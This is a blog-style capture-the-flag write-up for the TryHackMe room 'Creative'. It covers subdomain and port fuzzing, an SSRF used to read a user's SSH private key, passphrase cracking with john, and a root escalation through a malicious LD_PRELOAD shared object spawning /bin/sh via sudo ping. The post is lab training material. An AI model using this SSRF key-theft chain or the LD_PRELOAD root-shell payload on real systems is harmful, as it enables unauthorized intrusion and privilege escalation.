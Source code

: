 ```yaml
---
title: Creative - TryHackMe Write-Up
pubDate: 24/09/2024
description: A write-up on the room Creative.
author: PrintN
media_subpath: /assets/blog/creative-tryhackme/
image:
  path: 0.webp
categories: [Write-ups, TryHackMe]
tags: [Privilege Escalation, Website Hacking, Sudo, Fuzzing]
render_with_liquid: false
---
```

## Introduction
Hello👋 Today we're going to take a look at [Creative](https://tryhackme.com/r/room/creative){:target="_blank"} room on TryHackMe by sSaadakhtarr. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] creative.thm
```
We can now take a look at the website ```http://creative.thm```. It looks like a simple html website.
![Screenshot 1](1.webp)

## Enumeration
We'll just start off with a simple Nmap scan. We see that the ports 22 and 80 are open.
![Screenshot 2](2.webp)

Let's try to find some directories with Gobuster.
```bash
gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/direcotry-list-lowercase-2.3-medium.txt
```
![Screenshot 3](3.webp)
Hmmm nothing interesting there. Let's try subdomains.
```bash
gobuster vhost -u http://creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain creative.thm
```
![Screenshot 4](4.webp)
We found something. Let's check it out. Add ```beta.creative.thm``` to your ```/etc/hosts```.
![Screenshot 5](5.webp)

Ok, it explains what it does. Let's test it! I have created a test.txt and setup a python http server.
![Screenshot 7](7.webp)
![Screenshot 6](6.webp)
And it connects! We can see that it sends a GET request and on the website it displays the test.txt.
![Screenshot 8](26.webp)

Let's try and see if we can connect to the localhost (127.0.0.1) of the website.
![Screenshot 8](8.webp)
Which returns the content of the page.
![Screenshot 9](9.webp)

Now let's try to see if there are any ports that are not accesible from the outside. We'll use ```ffuf``` for this. But we first need to make a ports.txt we can do that with ```seq```.
```bash
seq 65535 > ports.txt
```

```bash
ffuf -u http://beta.creative.thm/ -w ports.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://localhost:FUZZ" -fw 3
```
![Screenshot 10](10.webp)
And we got a open port 1337!

## Getting Access
Now, with the ```http://localhost:1337/``` payload on ```http://beta.creative.thm```, we are able to get the contents of the web server.
![Screenshot 11](11.webp)

![Screenshot 12](12.webp)

Let's try going to ```/home``` and see what users we got.
![Screenshot 13](13.webp)

We get a user called Saad. Let's go into Saad's home folder.
![Screenshot 14](14.webp)

We can see that Saad has a .ssh folder.
![Screenshot 15](15.webp)

Let's get Saad ```id_rsa```
![Screenshot 16](16.webp)

To get the correct formatting of the ```id_rsa``` (to not get any errors when logging in with ssh), you'll have to view page source and then copy the contents of the ```id_rsa```.
![Screenshot 17](17.webp)

After having copied the ```id_rsa``` we have to give 600 permission to the ```id_rsa```.

![Screenshot 18](18.webp)

Looks like we need a passphrase. We can use ```john``` to get the password but we first have to convert the ```id_rsa``` to a .hash with ```ssh2john``` like so.
```bash 
ssh2john id_rsa > id_rsa.hash
```
![Screenshot 19](19.webp)

```bash 
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Screenshot 20](20.webp)

Nice! We got the passphrase, now we can ssh into Saad.

![Screenshot 21](21.webp)

And we're able to get the first flag 😃

![Screenshot 22](22.webp)

## Privilege Escalation
After looking a bit around I found Saad's password in the **.bash_history**.
![Screenshot 23](23.webp)

We can then see what privileges we have with ```sudo -L```.
![Screenshot 24](24.webp)
We see that Saad can run ```ping``` as root, but we can't do much with ```ping```. If we look closely on the ```sudo -L``` output, we can see that it contains:
```bash
env_keep+=LD_PRELOAD
```

The ```LD_PRELOAD``` environment variable is used to specify shared libraries that should be loaded before others when a program is run. This allows us to override functions in existing libraries. We can leverage this feature to inject malicious code into a process running with elevated privileges. 

```c
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	system("/bin/sh");
}
```
Next we'll have to compile it.
```bash
gcc -fPIC -shared -o escalate.so escalate.c -nostartfiles
```

Finally, we run the ```ping``` command with our ```LD_PRELOAD``` variable pointing to our malicious library
```bash
sudo LD_PRELOAD=/tmp/escalate.so /usr/bin/ping
```
![Screenshot 25](25.webp)

And we get root and are able to get the second flag 🥳 This was a fun room, hope you learned something from this write-up. Happy Hacking!